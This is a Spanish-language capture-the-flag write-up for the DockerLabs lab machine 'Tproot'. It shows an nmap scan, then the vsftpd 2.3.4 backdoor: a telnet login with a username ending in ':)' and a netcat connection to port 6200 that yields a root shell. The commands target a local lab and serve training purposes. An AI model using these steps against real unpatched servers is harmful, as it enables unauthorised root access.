 ```yaml
---
title: Tproot - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/tproot.png">

Hoy explotaremos la máquina *Tproot* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Nos aprovecharemos de una vulnerabilidad en *vsftpd* en una versión sin parche.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh tproot.tar
[sudo] contraseña para nmc:     

	                    ##        .         
	              ## ## ##       ==         
	           ## ## ## ##      ===         
	       /""""""""""""""""\___/ ===       
	  ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	       \______ o          __/           
	         \    \        __/            
	          \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  
                                         
				     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-17 15:11 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```



Nos percatamos de que está abierto el puerto **21** con el servicio **FTP**, que utiliza la versión *vsftpd 2.3.4.* Esta versión de vsftpd tiene una vulnerabilidad tipo backdoor que se activa cuando se introducen usuarios con ":)". Al hacerlo, se abre una *shell* en el puerto **6200**, permitiendo acceso remoto al sistema.

## Conexión mediante Telnet y Netcat

Nos conectamos con Telnet al puerto 21 y aprovechamos la vulnerabilidad para ingresar sin necesidad de autenticación, usando los comandos:
***USER test:)
***PASS test

```bash
➤ telnet 172.17.0.2 21
Trying 172.17.0.2...
Connected to 172.17.0.2.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS test
```



Ponemos a escuchar netcat en el puerto 6200 e intentamos ejecutar el comando *whoami*.

```bash
➤ nc 172.17.0.2 6200
whoami
root
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.